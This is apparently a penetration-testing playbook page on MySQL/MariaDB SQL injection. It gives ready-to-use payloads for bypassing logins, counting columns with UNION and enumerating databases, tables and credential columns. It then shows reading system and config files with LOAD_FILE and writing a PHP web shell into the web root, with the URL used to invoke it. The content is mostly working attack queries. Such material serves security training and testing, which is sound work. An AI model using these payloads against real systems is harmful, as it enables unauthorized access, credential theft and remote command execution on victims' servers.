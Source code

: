 ```yaml
---
slug: /playbooks/sqli
pagination_next: null
pagination_prev: null
---
```

This article describes some tricks for successful SQL injection. The commands describe here apply only for MySQL/MariaDB, but similar approach can be taken for any other relational databases.

## Comments

When trying to make the SQL injection, remember that SQL has different comment characters: `#`  and `--`. Mind the space in the last one, it's better to use `-- -` char for this kind of escape.

## URL encode

If you are trying to discover a SQL injection and you fail, remember that you might need to use the URL-encoded characters:

| Character | URL Encoded Character |
| --------- | --------------------- |
|'          | %27                   |
|"          | %22                   |
|#          | %23                   |
|;          | %3B                   |
|)          | %29                   |

## Query logic

Remember you can subvert any query logic by using the `AND` and `OR` operators, e.g:

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

If you are free to input any value in admin you can ignore the AND:

```sql
SELECT * FROM logins WHERE username='admin'--' AND password = 'p@ssw0rd';
```

Another example, you can just not only ignore the conditions but change them:

```sql
SELECT * FROM logins WHERE ((username='admin') AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e'
```

username = other')) OR id=5'--

```sql
SELECT * FROM logins WHERE ((username='username = other')) OR id=5'--) AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e'
```
And you will log-in as user with ID 5

## Union

You can abuse the SQL injection to extract info from any table using the `UNION` clause. You just need to know the number of columns.

You can combine the outputs of two tables provided they have the same number of columns.

In order to know the number of columns, you can use the following methods:

- Order by: you can pass the number of column to sort by: 1,2,3, keep trying until you got an error. That's the number of columns.

- Union: similar to the last one but provide the colums to a union query: `UNION select 1,2,3`. When it fails, you'll know the max number of columns.

This last method provides the benefit that you see in the UI if there are some hidden column.

## Enumerating through SQL injection

You can extract the information in the database via SQL injection. However, first you must know the databases inside, the tables and the structure of them.

No worries, you can make use of the table metadata to obtain this information:

### Databases

All available databases

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

Current database

```sql
select 1,database(),2,3-- -
```

### Tables

All available tables in database `dev`

```sql
select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'
```

### Table columns

All available columns in table 'credentials'

```sql
select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'
```

## User privileges

In certain conditions the user might be authorized to read/write files from the database. First of all you need to know the privileges of the current user:

To know the user running the database:

```sql
SELECT 1, user(), 3, 4
```

Check if the user is a super-user:

```sql
SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"
```

List all privileges of user:

```sql
SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"
```

### Reading

If `FILE` privilege is granted for the user, you might be able to read any system file from the database engine:

```sql
SELECT LOAD_FILE('/etc/passwd');
SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4
```

This will work provided the user running the database has read access in the OS.

You can use `TO_BASE64` function for convinience:

```sql
SELECT 1, TO_BASE64(LOAD_FILE("/var/www/html/config.php")), 3, 4
```

And later decode it:
```shell
cat /tmp/b.txt | tr -d ' ' | base64 -d  > /tmp/b.php
```

Note that displaying the base64 added some whitespaces which `base64` command dislikes. You can use `tr` to remove those chars.

### Writing

There are some requirements to be able to write a file from the database:

- `FILE` privilege
- Global `secure_file_priv` variable not enabled
- The user running the database must have write access to the destination

You can check the global variable with a query like:

```sql
SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"
```

If the conditions are met, writing to a file is simple:

```sql
select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'
```

Then, you can try more advanced stuff, like writing a web shell:

```sql
select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'
```

The attacker might run this web-shell from http://SERVER_IP:PORT/shell.php?0=id